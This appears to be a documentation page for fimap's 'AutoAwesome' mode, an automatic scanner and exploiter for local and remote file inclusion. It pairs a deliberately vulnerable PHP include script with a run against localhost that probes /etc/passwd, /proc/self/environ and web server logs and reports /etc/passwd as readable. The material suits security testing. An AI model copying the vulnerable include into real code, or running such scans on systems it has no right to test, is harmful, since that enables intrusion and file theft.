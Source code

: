 # Introduction #
AutoAwesome Mode? Sounds Awesome! Actually it is! Here is an example:


# Exploitable PHP Code #
```
<?php

        if (isset($_POST["go"])){
                include($_POST["action"]); // <-- Only when the POST value 'go' is defined.
        }else{
                echo "<html>";
                echo "<body>";
                echo "<form action='test.php' method='POST'>";
                echo "<input type='hidden' name='go'>";
                echo "<input type='hidden' name='action' value='index.html'>";
                echo "<input type='submit' name='submit' value='Go'>";
                echo "</form>";
                echo "</html>";
        }
?>
```


# Exploiting it using AutoAwesome Mode #
```
imax@Develb0x:/st0rage/dev/fimap/src$ ./fimap.py -4  -u "http://localhost/~imax/fail/test.php" -C
fimap v.09_svn (For the Swarm)
:: Automatic LFI/RFI scanner and exploiter
:: by Iman Karim (fimap.dev@gmail.com)

AutoAwesome mode engaging URL 'http://localhost/~imax/fail/test.php'...
Requesting 'http://localhost/~imax/fail/test.php'...
Analyzing form 'Unnamed Form #1' for file inclusion bugs.
[05:38:30] [OUT] Inspecting URL 'http://localhost/~imax/fail/test.php'...
[05:38:30] [INFO] Fiddling around with URL...
[05:38:30] [OUT] [PHP] Possible file inclusion found! -> 'http://localhost/~imax/fail/test.php' with POST-Parameter 'action'.
[05:38:30] [OUT] [PHP] Identifying Vulnerability 'http://localhost/~imax/fail/test.php' with POST-Parameter 'action'...
[05:38:30] [INFO] Scriptpath received: '/home/imax/public_html/fail'
[05:38:30] [INFO] Operating System is 'Unix-Like'.
[05:38:30] [INFO] Testing file '/etc/passwd'...
[05:38:30] [INFO] Testing file '/proc/self/environ'...
[05:38:30] [INFO] Testing file 'php://input'...
[05:38:31] [INFO] Testing file '/var/log/apache2/access.log'...
[05:38:31] [INFO] Testing file '/var/log/apache/access.log'...
[05:38:31] [INFO] Testing file '/var/log/httpd/access.log'...
[05:38:31] [INFO] Testing file '/var/log/apache2/access_log'...
[05:38:31] [INFO] Testing file '/var/log/apache/access_log'...
[05:38:31] [INFO] Testing file '/var/log/httpd/access_log'...
[05:38:32] [INFO] Testing file 'http://www.phpbb.de/index.php'...
###########################################################
#[1] Possible PHP-File Inclusion                          #
###########################################################
#::REQUEST                                                #
#  [URL]        http://localhost/~imax/fail/test.php      #
#  [POST]       go=&action=index.html&submit=Go           #
#  [HEAD SENT]                                            #
#::VULN INFO                                              #
#  [POSTPARM]   action                                    #
#  [PATH]       /home/imax/public_html/fail               #
#  [OS]         Unix                                      #
#  [TYPE]       Absolute Clean                            #
#  [TRUNCATION] No Need. It's clean.                      #
#  [READABLE FILES]                                       #
#                   [0] /etc/passwd                       #
###########################################################
Starting harvester engine to get links (Depth: 0)...
No links found.
AutoAwesome is done.
```

# So what exactly happend? #
  1. fimap requests the URL "http://localhost/~imax/fail/test.php" and searches any 'Set-Cookie' stuff and forms.
  1. The Cookies and\or forms will be scanned automaticly for file inclusion bugs.
  1. Now fimap will start the harvest engine to collect all URLs on the page.
  1. Finally the links will also be scanned for file inclusion bugs.

# What's so good about it? #
  * You don't have to provide all the parameters to fimap.
  * fimap will grab automaticly all forms, cookies and links for testing.

# What's not so good? #
Well - fimap can only find cookies, links and forms which are somewhere in the URL\HTML page you have defined with -u. Makes sense or not? :)